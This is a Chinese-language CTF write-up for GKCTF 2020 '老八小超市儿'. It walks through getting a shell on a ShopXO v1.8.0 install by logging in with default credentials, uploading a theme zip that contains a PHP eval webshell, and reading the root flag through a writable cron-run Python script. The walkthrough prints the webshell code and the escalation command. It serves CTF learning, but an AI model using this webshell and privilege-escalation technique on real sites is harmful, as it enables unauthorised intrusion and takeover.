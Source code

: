 ## 基本信息

* 题目名称： [GKCTF 2020]老八小超市儿
* 题目链接： https://www.nssctf.cn/problem/1302
* 考点清单： shopxo框架漏洞
* 工具清单：无
* payloads： 无

## 一、看到什么

**题目关键信息列表**：

1. 打开题目就是`shopxo`安装向导`v1.8.0`

## 二、想到什么解题思路

1. 搜索`v1.8.0`版本的`shopxo`框架存在哪些漏洞并进行利用。

## 三、尝试过程和结果记录

**尝试过程：**

1. 同意协议，并点击下一步，输入数据库用户名和密码`root:root`，这个是靠自己猜测。数据库的管理员账户一般就是`root`。输入后验证成功，则会给出默认的后台地址`admin.php`和账户密码`admin:shopxo`。

2. 搜索版本漏洞，有一个[shopXO后台v1.8.0获取Shell复现](https://wiki.96.mk/Web%E5%AE%89%E5%85%A8/ShopXO/ShopXO%20v1.8.0%20%E5%90%8E%E5%8F%B0getshell/)，可以跟着复现。

3. 登入后台 -> 打开主题管理，选择更多主题下载。

    ![](images/[GKCTF%202020]老八小超市儿-主题管理.png)

4. 注册一个账户，选择主题模板里的免费主题进行下载。

    ![](images/[GKCTF%202020]老八小超市儿-免费主题.png)

5. 它会给你一个网盘链接，下载好之后是`zip`安装包，任意选择一个版本的主题，写入一个如下内容的`php`文件。意图写入一句话木马，同时若访问这个文件则会显示当前`php`的配置信息。

    ```php
        <?php  
            eval($_POST["cmd"]);
            phpinfo(); 
        ?>    

    ```
6. 将这个文件命名为`1.php`，并放入如图所示的目录中，且任意版本的`zip`文件中都可以，比如`v6.0.0`。但是需要注意的是压缩包的目录结构不能发生变化，如直接对默认主题`v6.0.0`进行压缩，会导致压缩包多一级目录【默认主题`v6.0.0`】，这需要自己去检查一下。

    ![](images/[GKCTF%202020]老八小超市儿-目录结构.png)


6. 上传木马文件并利用就是要找到存储的位置。我们将重新压缩的压缩包进行上传。可以看到主题已经成功替换了，如果未替换则需要检查压缩时的目录是否多了一层。

    ![](images/[GKCTF%202020]老八小超市儿-主题路径.png)

7. 同时，我们也可以在源码中看到图片的路径，分析这个图片和`php`文件的相对位置，就知道其路径在`default/1.php`。进行访问。可以看到显示的就是`phpinfo()`的信息，表明木马上传成功，可以通过蚁剑连接了。

    ![](images/[GKCTF%202020]老八小超市儿-访问php文件.png)

8. 蚁剑连接，输入php文件中传递的参数`cmd`,链接地址选择`php`文件在服务器存储的位置。

9. 连接成功之后，直接访问根目录下的`flag`文件,提示这是假的，真的在`root`用户下。
    ![](images/[GKCTF%202020]老八小超市儿-假flag.png)

10. 根目录下还有`auto.sh`这个脚本文件，是一个定时任务,定时执行`makeflaghint.py`的内容，这里尝试直接更改脚本内容，提示保存失败，原因是权限不足，目前用户为`www-data`

    ```bash
    #!/bin/sh
    while true; do (python /var/mail/makeflaghint.py &) && sleep 60; done
    ```
11. 于是这里去访问`makeflaghint.py`,它会写入一些内容到`/flag.hint`中。这个`python`文件内容我们可以更改，于是在这里就可以获取`root`目录下的`flag`内容。增加下面注释的指令，就可以在`1.txt`中看到相关内容。

    ```python    
    import os
    import io
    import time
    os.system("whoami")
    gk1=str(time.ctime())
    gk="\nGet The RooT,The Date Is Useful!"
    f=io.open("/flag.hint", "rb+")
    f.write(str(gk1))
    f.write(str(gk))
    f.close()
    # os.system("cat /root/flag>/1.txt")
    ```
12. 等待`1min`左右，就可以在根目录下看到`1.txt`中包含`flag`了。

    ![](images/[GKCTF%202020]老八小超市儿-flag.png)


## 四、总结与反思

1. 框架漏洞可以对版本进行搜索并利用。
2. 定时任务也可以达到提权的效果。